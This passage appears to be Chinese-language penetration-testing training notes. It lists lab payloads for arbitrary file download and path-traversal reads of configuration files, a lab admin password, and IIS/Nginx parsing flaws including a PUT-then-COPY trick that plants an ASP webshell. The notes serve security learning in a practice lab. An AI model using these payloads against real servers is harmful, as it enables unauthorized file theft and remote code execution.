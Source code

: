 ~~~shell
gn
任意文件下载：
    http://172.168.20.40:8110/
    payload:
    http://172.168.20.40:8110//index.php/bbs/index/download?url=c:/windows/win.ini&name=&local=1

任意文件删除：
    http://172.168.20.40:8111/
    后台删除处

任意文件读取：
    172.168.20.52 后台编辑模板处 admin/Admin@666
    http://172.168.20.40:8109/
    payload:
    http://172.168.20.40:8109/include/thumb.php?dir=http\..\..\config\config_db.php
    抓包查看

练习：找任意文件删除，读取这些漏洞
    http://172.168.20.40:8118/mdmsfv/#

~~~



# 十二、漏洞

## 中间件漏洞

~~~shell
# 支持的方式
	option /HTTP 1.1
#漏洞浮现 
vulhub.org
vulfocus.cn
#docker 
crlf
~~~



### 1、IIS漏洞

~~~shell
# IIS
# 一、IIS 5.x/6.0 解析漏洞
1、目录解析：在网站下建立文件夹的名称中带有.asp、.asa 等可执行脚本文件后缀的文件夹，其目录内的任何扩展名的文件都被 IIS 当作可执行文件来解析并执行。
http://www.xxx.com/xx.asp/xx.jpg
2、文件解析：在 IIS6.0 下，分号后面的不被解析，也就是说 6.0 下，分号后面的不被解析，也就是说 xx.asp;.jpg 将被当做 xx.asp 解析并执行。
http://www.xxx.com/xx.asp;.jpg
IIS6.0 默认的可执行文件有 asp、asa、cer、cdx 四种。
3、put上传漏洞
	(1)PUT /aa.txt-->最后一行写木马
	(2)通过move或copy重命名：
			COPY /a.txt HTTP 1.1
			Destination:http://www.xxx.com/cmd.asp     //将a.txt重命名为cmd.asp(由于解析漏洞)
# 二、 IIS 7.0/IIS 7.5/ Nginx < 0.8.3 畸形解析漏洞
在默认 Fast-CGI 开启状况下，访问以下网址，服务器将把 xx.jpg 文件当做 php 解析并执行。
http://www.xxx.com/xx.jpg/1.php
# 三、短文件漏洞：123456~1 
	6.0:CVE-2017-7269
资料：https://blog.csdn.net/lzz710107110/article/details/120947836
~~~
